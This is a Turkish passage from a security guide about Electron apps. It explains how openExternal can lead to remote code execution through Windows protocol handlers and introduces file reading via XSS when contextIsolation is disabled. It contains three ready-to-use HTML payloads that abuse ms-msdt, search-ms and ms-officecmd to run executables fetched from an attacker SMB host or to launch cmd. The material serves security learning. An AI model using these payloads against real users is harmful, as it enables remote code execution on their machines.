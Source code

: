 ![https://miro.medium.com/max/1400/1\*ZfgVwT3X1V\_UfjcKaAccag.png](<../../../.gitbook/assets/image (963).png>)

Electron JS güvenlik en iyi uygulamaları, `openExternal` fonksiyonu ile güvenilmeyen içeriğin kabul edilmemesini önerir, çünkü bu çeşitli protokoller aracılığıyla RCE'ye yol açabilir. İşletim sistemleri, RCE'yi tetikleyebilecek farklı protokolleri destekler. Bu konu hakkında daha ayrıntılı örnekler ve açıklamalar için, bu kaynağa [başvurulabilir](https://positive.security/blog/url-open-rce#windows-10-19042), bu kaynak, bu güvenlik açığını istismar edebilecek Windows protokol örneklerini içermektedir.

**Windows protokol istismarlarına örnekler şunlardır:**
```html
<script>
window.open("ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22")
</script>

<script>
window.open("search-ms:query=malicious_executable.exe&crumb=location:%5C%5Cattacker.com%5Csmb_share%5Ctools&displayname=Important%20update")
</script>

<script>
window.open("ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D")
</script>
```
## İç Dosyaları Okuma: XSS + contextIsolation

**`contextIsolation`'ı devre dışı bırakmak, yerel dosyaları okumak ve dışarı aktarmak için `<webview>` etiketlerinin kullanılmasına olanak tanır**, `<iframe>`'e benzer. Sağlanan bir örnek, bu açığı kullanarak iç dosyaların içeriğini okuma yöntemini göstermektedir:
